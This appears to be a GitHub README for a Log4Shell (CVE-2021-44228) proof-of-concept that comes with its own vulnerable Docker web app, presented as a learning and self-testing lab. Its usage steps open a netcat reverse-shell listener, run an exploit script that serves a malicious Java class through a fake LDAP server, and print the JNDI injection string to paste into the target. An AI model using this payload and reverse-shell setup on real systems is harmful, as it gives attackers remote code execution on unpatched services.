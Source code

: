 # log4j-shell-poc

A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.

#### Usage:
* Clone this repo
```sh
git clone https://github.com/prasadashu/log4j-shell-poc.git
```

* Change directory to the cloned directory
```sh
cd log4j-shell-poc
```

* Install the requirements
```sh
pip install -r requirements.txt
```

* Install Java 8 JDK
```sh
apt install -y openjdk-8-jdk
```

* Copy the JDK to the current working directory
```sh
cp -r /usr/lib/jvm/java-8-openjdk-amd64 ./
```

* Start a netcat listener to accept reverse shell connection.<br>
```sh
nc -lvnp 9001
```

* Build the docker image
```sh
docker build -t log4j-vulnerable-application .
```

* Start the vulnerable application
```sh
docker run --network host log4j-vulnerable-application
```

* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `java-8-openjdk-amd64`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Forked from Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Our vulnerable application
--------------------------

A Dockerfile has been added with the vulnerable webapp.

We can run the application using the following steps:

```sh
1: docker build -t log4j-vulnerable-application .
2: docker run --network host log4j-vulnerable-application
```
Once it is running, you can access it on localhost:8080

<br>

Getting the Java version.
--------------------------------------

We can install the required Java version using the below command.
```sh
apt install -y openjdk-8-jdk
```

Java versision installed will be
```sh
openjdk version "1.8.0_342"
OpenJDK Runtime Environment (build 1.8.0_342-8u342-b07-0ubuntu1~20.04-b07)
OpenJDK 64-Bit Server VM (build 25.342-b07, mixed mode)
```

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.

